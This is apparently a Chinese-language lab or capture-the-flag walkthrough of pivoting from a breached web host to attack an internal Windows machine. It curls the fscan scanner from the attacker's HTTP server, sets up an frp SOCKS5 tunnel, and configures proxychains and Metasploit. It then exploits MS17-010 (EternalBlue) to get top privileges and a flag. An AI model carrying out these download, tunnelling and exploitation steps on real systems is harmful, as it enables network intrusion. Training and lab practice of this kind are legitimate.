

## 前言

本文是在已经攻破`EP-web01`的基础上，对其内网中的Win8086进行攻击，最终获取到其权限

## 漏洞扫描

由于上篇文章已经可以远程登录Web01，这里直接上传fscan的`windows`版本，并且进行漏扫

这里还是使用http传输文件

```
#kali里面
$ python -m http.server 80

#win
PS : curl 192.168.237.140/fscan.exe -O fscan.exe
```


好像扫到一个`MS17-010`的漏洞


对36进行扫描也是发现`MS17-010`的漏洞


## 搭建代理

（题外话：为什么我要使用外部的工具呢？因为`msf`自带的`socks_proxy`我这里尝试了好像用不了，或许是我操作有问题，不过有工具用也是可以的）

frp内网穿透工具

- [Releases · fatedier/frp (github.com)](https://github.com/fatedier/frp/releases)

这里使用的是V6.0的版本，分别下载`linux`和`windows`版本


```
[common]
bind_port = 7000
```


```
[common]
server_addr = 192.168.237.140 
server_port = 7000  
tls_enable = ture 

[plugin socks]
type = tcp  
plugin = socks5 
remote_port = 46075  
use_encryption = true
use_compression = true
```

其中windows的frp配置文件中的`server_addr`就是kali的IP，使用的代理端口就是`46075`

web01的主机上仍然使用`curl -O`的方式进行下载文件


最后两端开启frp服务


如图所示，frp代理开启成功

回到Kali

```
$ vim /etc/proxychains4.conf
```

在最下端如图配置即可


## MS17-010

```
$ msfconsole
```

打开msfconsole，并且执行这两行命令，就不用再执行`proxychains`了

```
setg Proxies socks5:127.0.0.1:46075 #设置全局代理
set ReverseAllowProxy true #这个参数是因为使用全局代理，可能会导致我们的shell无法反弹，所以需要开启。
```

然后正常的使用永恒之蓝的漏洞即可


这里值得注意的是我使用的是`bind_tcp`，这是一个正向链接，因为kali通过代理是能访问到8086主机，而反过来是不行的。


可以看到已经是最高权限了

在C盘的Users的John用户目录下拿到第二个flag



进入Shell，修改字符集为65001，不然会乱码


其他的似乎并没有什么可以利用的东西了，这个靶机应该也就这样了
